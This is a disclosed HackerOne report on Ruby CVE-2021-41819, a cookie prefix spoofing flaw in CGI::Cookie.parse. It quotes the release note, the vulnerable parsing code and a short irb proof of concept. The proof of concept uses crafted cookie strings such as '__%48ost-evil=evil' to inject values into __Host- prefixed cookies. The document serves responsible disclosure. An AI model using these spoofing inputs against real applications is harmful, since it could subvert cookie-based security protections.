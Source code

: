# Ruby CVE-2021-41819: Cookie Prefix Spoofing in CGI::Cookie.parse

## Report Details
- **Report ID**: 1464396
- **URL**: https://hackerone.com/reports/1464396
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-01-30T07:31:32.727Z
- **Disclosed**: 2022-02-03T03:43:03.517Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Release note: https://www.ruby-lang.org/en/news/2021/11/24/cookie-prefix-spoofing-in-cgi-cookie-parse-cve-2021-41819/

> The old versions of CGI::Cookie.parse applied URL decoding to cookie names. An attacker could exploit this vulnerability to spoof security prefixes in cookie names, which may be able to trick a vulnerable application.

> By this fix, CGI::Cookie.parse no longer decodes cookie names. Note that this is an incompatibility if cookie names that you are using include non-alphanumeric characters that are URL-encoded.

> This is the same issue of CVE-2020-8184.

---

The following is copied from hackerone's report. https://hackerone.com/reports/910552

I found the same problem with https://hackerone.com/reports/895727 exists at `CGI::Cookie.parse`.

https://github.com/ruby/ruby/blob/v2_7_1/lib/cgi/cookie.rb#L162

```ruby
def self.parse(raw_cookie)
  cookies = Hash.new([])
  return cookies unless raw_cookie

  raw_cookie.split(/;\s?/).each do |pairs|
    name, values = pairs.split('=',2)
    next unless name and values
    name = CGI.unescape(name)
    values ||= ""
    values = values.split('&').collect{|v| CGI.unescape(v,@@accept_charset) }
    if cookies.has_key?(name)
      values = cookies[name].value + values
    end
    cookies[name] = Cookie.new(name, *values)
  end

  cookies
end
```

The value of `name` is decoded.


#### PoC

```ruby
❯ ruby -v
ruby 2.7.1p83 (2020-03-31 revision a0c7c23c9c) [x86_64-darwin19]

❯ irb
irb(main):001:0> require 'cgi'
=> true

irb(main):002:0> cookie_a = CGI::Cookie.parse("__%48ost-evil=evil;__Host-evil=abc")
irb(main):003:0> cookie_a["__Host-evil"]
=> #<CGI::Cookie: "__Host-evil=evil&abc; path=">
irb(main):004:0> cookie_a["__Host-evil"].to_a
=> ["evil", "abc"]

irb(main):005:0> cookie_b = CGI::Cookie.parse("%48oge=evil;Hoge=abc;Foo=xxx")
irb(main):006:0> cookie_b["Hoge"].to_a
=> ["evil", "abc"]
irb(main):007:0> cookie_b["Foo"].to_a
=> ["xxx"]
```

## Impact

It has the same impact as #895727, and it is possible to insert a value into the name of a cookie that should be protected by Cookie prefixes.

## Attachments
No attachments
